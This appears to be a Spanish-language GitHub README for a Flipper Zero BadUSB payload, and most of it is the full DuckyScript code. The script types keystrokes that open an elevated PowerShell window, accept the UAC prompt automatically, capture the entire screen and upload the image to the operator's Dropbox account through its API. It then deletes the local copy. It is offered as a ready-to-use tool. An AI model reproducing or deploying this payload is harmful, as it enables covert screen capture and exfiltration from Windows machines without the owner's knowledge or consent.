 # Dropbox Screenshot Uploader

Este proyecto contiene un payload para el Flipper Zero que toma una captura de pantalla en un sistema Windows y la sube a Dropbox utilizando PowerShell.

## Autor

- **mrflippermen**

## Descripción

Este payload está diseñado para sistemas Windows. El script realiza las siguientes acciones:
1. Abre PowerShell con permisos elevados.
2. Toma una captura de pantalla.
3. Sube la captura de pantalla a Dropbox.
4. Elimina el archivo temporal de la captura.

## Requisitos

- Flipper Zero
- Token de API de Dropbox
- Sistema operativo Windows

## Instalación

1. Clona o descarga este repositorio.
2. Abre el script en tu editor de texto preferido.
3. Reemplaza el marcador `"DROPBOX_API_TOKEN_HERE"` con tu token de API de Dropbox.
4. Guarda los cambios.

## Uso

1. Asegúrate de que PowerShell está instalado en tu sistema Windows.
2. Ejecuta el payload en tu Flipper Zero.
3. Observa cómo se abre PowerShell, toma una captura de pantalla y la sube a Dropbox.

## Script

```plaintext
REM Autor: mrflippermen 
REM Descripción: Este payload toma una captura de pantalla y la sube a Dropbox.
REM Sistema: Windows

DELAY 750
WINDOWS d
DELAY 1500
WINDOWS r
DELAY 1500

REM Abre PowerShell con permisos elevados
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 2000

REM Aceptar el prompt de Control de Cuentas de Usuario (UAC)
ALT LEFTARROW
DELAY 1000
ALT ENTER
DELAY 2000

REM Espera a que la ventana de PowerShell con permisos elevados esté lista
DELAY 1000

REM Establecer el token de API de Dropbox
STRING $db = "DROPBOX_API_TOKEN_HERE";
ENTER

REM Función para subir un archivo a Dropbox
STRING function DropBox-Upload {
ENTER
STRING     param (
ENTER
STRING         [string]$SourceFilePath
ENTER
STRING     )
ENTER
STRING     $outputFile = Split-Path $SourceFilePath -leaf;
ENTER
STRING     $TargetFilePath = "/$outputFile";
ENTER
STRING     $arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }';
ENTER
STRING     $authorization = "Bearer " + $db;
ENTER
STRING     $headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]";
ENTER
STRING     $headers.Add("Authorization", $authorization);
ENTER
STRING     $headers.Add("Dropbox-API-Arg", $arg);
ENTER
STRING     $headers.Add("Content-Type", 'application/octet-stream');
ENTER
STRING     Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers;
ENTER
STRING }
ENTER

REM Cargar System.Windows.Forms y tomar una captura de pantalla
STRING Add-Type -AssemblyName System.Windows.Forms;
ENTER
STRING $screen = [System.Windows.Forms.SystemInformation]::VirtualScreen;
ENTER
STRING $bitmap = New-Object Drawing.Bitmap $screen.Width, $screen.Height;
ENTER
STRING $graphics = [System.Drawing.Graphics]::FromImage($bitmap);
ENTER
STRING $graphics.CopyFromScreen($screen.Left, $screen.Top, 0, 0, $screen.Size);
ENTER

REM Guardar la captura de pantalla en un archivo temporal
STRING $filePath = "$env:temp\sc.png";
ENTER
STRING $bitmap.Save($filePath, [System.Drawing.Imaging.ImageFormat]::Png);
ENTER
STRING $graphics.Dispose();
ENTER
STRING $bitmap.Dispose();
ENTER

REM Subir la captura de pantalla a Dropbox
STRING DropBox-Upload -SourceFilePath $filePath;
ENTER

REM Eliminar el archivo temporal
STRING Remove-Item -Path $filePath;
ENTER

REM Salir del script
STRING exit
ENTER
plaintext```

##Contribuir

Las contribuciones son bienvenidas. Puedes hacer un fork del repositorio y enviar un pull request con tus mejoras o correcciones.
